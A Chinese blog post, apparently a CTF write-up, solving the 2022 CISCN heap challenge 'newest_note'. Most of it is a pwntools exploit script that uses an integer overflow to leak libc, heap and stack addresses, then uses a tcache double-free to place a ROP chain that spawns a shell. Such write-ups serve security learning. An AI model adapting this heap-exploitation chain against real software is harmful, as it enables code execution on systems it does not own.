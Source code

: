 ```yaml
---
layout : post
author : wsxk
comments : true
title : "2022ciscn newest_note wp"
date : 2022-6-12
tags : [ctf_wp]
---
```


国赛的题目

漏看了整数溢出导致题目不会做（😭）

总思路如下：

1. 利用整数溢出申请超大堆（超过32bits会被截断）从而实现任意地址读

2. 泄露libc、heap、stack基址

3. 劫持stack基址，进行ROP攻击。 

## exp

```py
from pwn import *
context.log_level='debug'
#io = process("./newest_note",env={"LD_PRELOAD":"/home/wsxk/Desktop/glibc/install/lib64/libc.so.6"})
io = process("./newest_note")
libc = ELF("./libc.so.6")
def add(index,content):
    io.sendlineafter(": ",str(1))
    io.sendlineafter("Index: ",str(index))
    io.sendlineafter("Content: ",content)

def delete(index):
    io.sendlineafter(": ",str(2))
    io.sendlineafter("Index: ",str(index))

def print_content(index):
    io.sendlineafter(": ",str(3))
    io.sendlineafter("Index: ",str(index))

#gdb.attach(io)
# leak libc
io.sendlineafter("How many pages your notebook will be? :",str(0x20005000))


print_content(0x4899a) 
#gdb.attach(io)
libc_base = u64(io.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00"))-0x218cc0
log.success("libc_base:"+hex(libc_base))

#leak heap
print_content(0x48998) 
heap_base = u64((io.recv(15))[-6:].ljust(8,b"\x00"))-0x290
log.success("heap_base:"+hex(heap_base))

# gdb.attach(io)
# pause()
#leak stack_addr
print_content(0x487f5)
stack_addr = u64(io.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00"))


for i in range(10):
    add(i,b"a"*0x30)

for i in range(7):
    delete(i)

delete(7)
delete(8)
delete(7)

for i in range(7):
    add(i,b"a"*0x30)

log.success("libc_base:"+hex(libc_base))
log.success("heap_base:"+hex(heap_base))
log.success("stack_addr:"+hex(stack_addr))


add(7,p64((stack_addr-0x150-0x8)^(heap_base>>12)))
add(0,b"wsxk")
add(1,b"wsxk")
gdb.attach(io)
pause()
libc.address = libc_base
add(2,p64(0)+p64(0x2d9b9+libc_base)+p64(libc_base+0x2e6c5)+p64(next(libc.search(b"/bin/sh\x00")))+p64(libc.sym["system"]))
# 进入system，有栈地址对齐的要求，因此多添加了一个ret。
# log.success("libc_base:"+hex(libc_base))
# log.success("heap_base:"+hex(heap_base))
# log.success("stack_addr:"+hex(stack_addr))

io.interactive()
```


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>